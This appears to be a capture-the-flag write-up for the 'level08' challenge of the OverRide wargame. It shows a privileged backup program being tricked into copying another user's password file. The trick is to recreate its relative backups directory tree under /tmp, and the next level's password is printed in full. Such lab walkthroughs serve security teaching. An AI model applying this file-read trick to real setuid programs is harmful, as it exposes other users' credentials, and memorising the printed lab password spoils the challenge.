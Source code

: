 # level08

The program opens a file and backups the content of the file into `./backup/$FILEPATH`.

## Step 1. Try to backup `.pass`
```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
We got an error that the program cannot open `./backups//home/users/level09/.pass`. We cannot create directory in the home directory.

## Step 2. Use `/tmp` to bakcup `.pass`
```
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
